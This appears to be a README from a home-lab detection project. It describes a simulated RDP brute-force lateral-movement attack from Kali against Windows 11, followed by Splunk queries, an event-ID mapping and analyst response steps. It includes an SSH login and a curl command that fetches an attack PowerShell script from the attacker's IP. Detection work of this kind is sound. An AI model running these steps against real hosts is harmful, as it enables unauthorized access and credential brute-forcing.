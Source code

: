 

# Detection Usecase 2 : Lateral Movement via Brute Force


# Scenario Summary: 

An Attacker has tried to logged in into the System by using credentials of a user and by that machine,  
attacker Brute Force other system on the network through RDP using a PowerShell Scripts.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript on it.  
```
ssh low@192.168.0.103
```  
```
curl http://192.168.0.106/RDP.ps1
```
2) Then executed the script to Brute Force other system.  

[To See the ps1 file ](scripts/RDP.ps1)

*******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH 
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 11        | File Creation                    |

# Detection Query / Logic:
```spl 
- Search - Finding N/W Connection through mstsc.exe
index=* EventCode=3 mstsc.exe | stats count by SourceIp, DestinationIp, EventCode
```
```spl 
- Search - Command Execution using Powershell 
index=* EventCode=1 mstsc.exe OR cmdkey.exe | stats count by host, EventCode, OriginalFileName, CommandLine
```

# Sample Alert Screenshot

1) User has logged in.  

![log in](<logs/Screenshot 2025-06-04 152041.png>)  
![login2](<logs/Screenshot 2025-06-04 153141.png>)

2) Then there was a Network Connection Detected to same IP and immediately a file was created.  

![file](<logs/Screenshot 2025-06-04 153716.png>)

3) After the file execution there was many request going to a known IP by the 'low' user using 'mstsc.exe'.  

![outbound](<logs/Screenshot 2025-06-04 153041.png>)

4) Many command were executed using 'cmdkey.exe'.  

![cmdkey](<logs/Screenshot 2025-06-04 152805.png>)

5) Also in the victim machine traffic are been captured coming to it via RDP.  

![wireshark](<logs/Screenshot 2025-06-04 151350.png>)

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> Confirm the Detection - Verify logs and see the indicators(e.g., Cmd-Line, mstsc.exe)(e.g.,Event ID : 4625(unsuccessful login), 11(File Creation), 1(Process Creation/Command Execution)), try to correlate it with unexpected login.  
-> Contain the Threat - Isolate the system and stop any malicious runinng processes and disable the user account involved in the attack.  
-> Delete any downloaded files, check for scheduled tasks or any persistence mechanism.  
-> Collect the Evidence.  
-> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
